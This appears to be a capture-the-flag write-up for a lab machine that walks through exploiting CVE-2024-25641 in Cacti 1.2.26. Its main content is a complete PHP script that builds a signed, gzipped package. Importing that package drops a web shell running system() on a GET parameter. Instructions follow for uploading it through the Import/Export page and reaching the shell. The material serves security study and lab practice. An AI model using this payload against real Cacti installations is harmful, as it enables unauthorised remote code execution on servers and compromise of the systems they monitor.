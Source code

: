# Cacti - CVE-2024-25641 

After researching for known exploits I discovered quite a few for version 1.2.26. The most interesting exploit was `CVE-2024-25641` which allowed remote code execution by uploading a malicious package.

Source: https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88

An arbitrary file write vulnerability, exploitable through the "Package Import" feature, allows authenticated users having the "Import Templates" permission to execute arbitrary PHP code on the web server (RCE).

## Generating Payload (test.xml.gz)

The below PHP script generates the payload. I modified the original payload to accept input from a GET request and pass them to system via PHP.

```php
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = '<?php system($_GET["cmd"]); ?>';
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
$data = sprintf($xmldata, base64_encode($filedata), base64_encode($filesignature), base64_encode($public_key));
openssl_sign($data, $signature, $keypair, OPENSSL_ALGO_SHA256);
file_put_contents("test.xml", str_replace("<signature></signature>", "<signature>".base64_encode($signature)."</signature>", $data));
system("cat test.xml | gzip -9 > test.xml.gz; rm test.xml");

?>
```

## Uploading Payload (test.xml.gz)

Uploading the generated payload from the previous step. The Import/Export page was used to upload the file as shown below. After uploading the file a web shell should be extracted to `/var/www/html/cacti/resource/test.php`. This file should then be accessable from `http://cacti.monitorsthree.htb/resource/test.php`. 
